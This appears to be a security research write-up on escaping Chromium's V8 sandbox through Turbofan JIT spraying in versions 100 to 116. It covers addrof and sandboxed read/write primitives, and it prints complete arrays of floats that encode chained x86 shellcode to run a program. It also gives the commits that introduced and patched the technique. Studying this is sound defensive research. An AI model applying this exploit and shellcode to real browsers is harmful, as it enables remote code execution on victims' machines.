





# Escaping V8 Sandbox via Turbofan JIT Spraying (100.0.4896.60 <= Chromium < 117.0.5938.62)

In this post, I will explain how to escape V8 sandbox to get RCE via Turbofan JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [4512c6eb7189c21f39420ddf8d9ff4f05a4a39b4](https://chromium.googlesource.com/v8/v8/+/4512c6eb7189c21f39420ddf8d9ff4f05a4a39b4) (Jul 11th, 2023)

Run [`setup.zsh`](./setup.zsh) in your working directory.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L26) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```







`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region.

When `jit()` is called, `rip` moves to `instruction_start` pointer in `code` of `jit()`, which is inside of V8 sandbox. Using sandboxed AAW primitive, we can overwrite `instruction_start` pointer with arbitrary value, e.g. the address of number which we inserted to the optimized code. If so, the number acts like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)



```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 0x10000; i++) { jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```



If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

You have to install `/bin/calc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.



## Bisection

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24th, 2022)

[`v8_enable_external_code_space`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:BUILD.gn;l=415) was set to `true` in `x64` in the commit above, so [`code_entry_point`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:src/objects/code.h;l=86) in [`CodeDataContainer`](https://source.chromium.org/chromium/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a:src/objects/code.h;l=46) became available. As a result, the exploitation technique explained in this post was introduced.

## Patch

> [[sandbox] Enable code pointer sandboxing](https://chromium.googlesource.com/v8/v8/+/c8d039b05081b474ef751411a5c76ca01900e49a) (Jul 11th, 2023)
>
> [Revert "[sandbox] Enable code pointer sandboxing"](https://chromium.googlesource.com/v8/v8/+/bc795ebd90a5a7c957b644da5fac369eb88aa87a) (Jul 11th, 2023)
>
> [Reland "[sandbox] Enable code pointer sandboxing"](https://chromium.googlesource.com/v8/v8/+/7df23d5163a10a12e4b4262dd4e78cfb7ec97be0) (Jul 11th, 2023)
